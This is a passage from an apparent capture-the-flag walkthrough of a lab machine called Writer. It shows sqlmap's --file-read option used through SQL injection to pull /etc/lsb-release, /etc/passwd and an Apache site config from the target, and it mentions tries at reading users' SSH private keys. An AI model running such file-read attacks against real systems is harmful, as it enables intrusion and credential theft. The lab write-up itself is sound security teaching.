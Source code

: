 For example, giving it `--file-read=/etc/lsb-release` returns the file:

    
    
    oxdf@parrot$ cat /home/oxdf/.sqlmap/output/10.10.11.101/files/_etc_lsb-release
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=20.04
    DISTRIB_CODENAME=focal
    DISTRIB_DESCRIPTION="Ubuntu 20.04.2 LTS"
    

I can also do a manual file read by logging in, and then sending that request
to Burp Repeater:

![image-20211202133208422](https://0xdfimages.gitlab.io/img/image-20211202133208422.png)

### File System Enumeration

#### Users

The `/etc/passwd` file shows four users that can get shells:

    
    
    oxdf@parrot$ cat /home/oxdf/.sqlmap/output/10.10.11.101/files/_etc_passwd | grep sh$
    root:x:0:0:root:/root:/bin/bash
    kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
    filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
    john:x:1001:1001:,,,:/home/john:/bin/bash
    

I tried to read `user.txt` and `id_rsa` files out of any of their home dirs,
but without luck.

#### Web Config

I’ll pull the config for enabled sites from Apache (`/etc/apache2/sites-
enabled/000-default.conf`) to see where the web root is located.

    
    
    <VirtualHost *:80>
            ServerName writer.htb
            ServerAdmin admin@writer.htb
            WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
            <Directory /var/www/writer.htb>
                    Order allow,deny
                    Allow from all
            </Directory>
            Alias /static /var/www/writer.htb/writer/static
            <Directory /var/www/writer.htb/writer/static/>
                    Order allow,deny
                    Allow from all
            </Directory>
            ErrorLog ${APACHE_LOG_DIR}/error.log
            LogLevel warn
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    